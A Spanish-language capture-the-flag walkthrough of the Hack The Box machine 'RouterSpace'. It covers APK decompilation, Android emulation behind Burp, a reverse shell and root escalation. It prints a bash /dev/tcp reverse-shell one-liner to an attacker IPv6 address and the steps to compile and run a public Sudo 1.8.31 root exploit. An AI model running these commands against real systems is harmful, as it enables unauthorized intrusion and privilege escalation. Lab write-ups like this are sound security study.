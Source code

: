 # 10.10.11.148 - RouterSpace
![RouterSpace](https://user-images.githubusercontent.com/96772264/209670353-151ed1ab-b023-4def-b8b6-cee5fe5a06d3.png)

------------
# Part 1: Enumeración

Tenemos el puerto 22 (ssh) y el 80 (http) abiertos (utilize un script en bash)
El whatweb nos reporta lo siguiente:
```console
http://10.10.11.148 [200 OK] Bootstrap, HTML5, IP[10.10.11.148], JQuery[1.12.4], Modernizr[3.5.0.min], Script, Title[RouterSpace], UncommonHeaders[x-cdn], X-Powered-By[RouterSpace], X-UA-Compatible[ie=edge]
```
La web (RouterSpace) nos ofrece una aplicacion, el resto de cosas no son funcionales (enlace de contacto, subscripcion...)

![router0](https://user-images.githubusercontent.com/96772264/209670596-25b71bac-161c-4190-be3f-ef90765156de.PNG)

El fuzzing de rutas no funciona ta que pone "Suspicious Activity Detected..."  

------------
# Part 2: Estructura de una APK

Nos descargamos la apk, hoy daremos pentesting android. La herramienta apktool permite desempaquetar la app para ver su codigo.  

```console
└─$ apktool d RouterSpace2.apk
```
Una apk tiene como estructura datos en XML (metadatos) y codigo ensamblado smali (lenguaje ensamblador especifico de android).
Hay un archivo que suele contener informacion critica: 
```console
└─$ cat ./res/values/strings.xml | grep -oE ">.*?<" --color=none | tr -d "<>";
```
Pero no he dado con nada interesante. He hecho un grepeo recursivo con palabras clave como password o el nombre de la maquina ```grep -rIE "routerspace|password"```
pero tampoco hay suerte.

El codigo smali es muy dificil de interpretar, el codigo principal esta en un archivo llamadp MainActivity
```console
└─$ find ./ -name "Main*" 
./smali/com/routerspace/MainActivity.smali
```
Hay un desamblador llamado jadx (se corre con el comando ```jadx-gui```), es similar al ghidra y nos permite leer en codigo java todo esto, pero tampoco encontre 
por ahi.
![router5](https://user-images.githubusercontent.com/96772264/209670963-11637cc4-245f-4775-accf-2fa7eb080041.PNG)

------------
# Part 3: Emulando un Android

Lo unico que queda es correr la apk en un emulador y analizar su comportamiento, como se llama Routerspace tiene que ver con cosas de redes.

Para hacer que el anbox tenga conectividad hay que bajarse un [script](https://raw.githubusercontent.com/anbox/anbox/master/scripts/anbox-bridge.sh) y ejecutarlo
como root. ```sudo bash bridge.sh```

```console
└─$ /snap/bin/anbox launch --package=org.anbox.appmgr --component=org.anbox.appmgr.AppViewActivity
└─$ adb shell settings put global http_proxy 10.10.14.16:8001;
```
![router3](https://user-images.githubusercontent.com/96772264/209671092-7cf46428-2107-47b5-8337-cf9c26259ef2.PNG)

Ya con esto hacemos que se conecte con burpsuite
![router2](https://user-images.githubusercontent.com/96772264/209671156-2c559be2-8a79-404a-8bdf-1dad29e45630.PNG)
![router4](https://user-images.githubusercontent.com/96772264/209671194-589a881d-42e0-4c8b-9f62-e0050338ed58.PNG)

```console
└─$ sudo nc -6nlvp 443 
bash -c 'bash -i >& /dev/tcp/dead:beef:2::100e/443 0>&1'
```

------------
# Part 4: En el sistema

```console
paul@routerspace:/tmp$ find / -perm /4000 2>/dev/null
```
- SUIDs -> /usr/bin/sudo  (hay versiones vulnerables)
```console
paul@routerspace:/tmp$ sudo --version
Sudo version 1.8.31
```
Buscando en google ```Sudo-1.8.31-Root-Exploit``` en google el primero que sale...
```console
└─$ git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
└─$ cd Sudo-1.8.31-Root-Exploit

paul@routerspace:/tmp$ nano exploit.c # copiamos tal y como lo tenemos en nuestro sistema
paul@routerspace:/tmp$ nano shellcode.c # igual
paul@routerspace:/tmp$ nano Makefile # tambien
paul@routerspace:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:/tmp$ ./exploit
# bash
root@routerspace:/tmp#
```

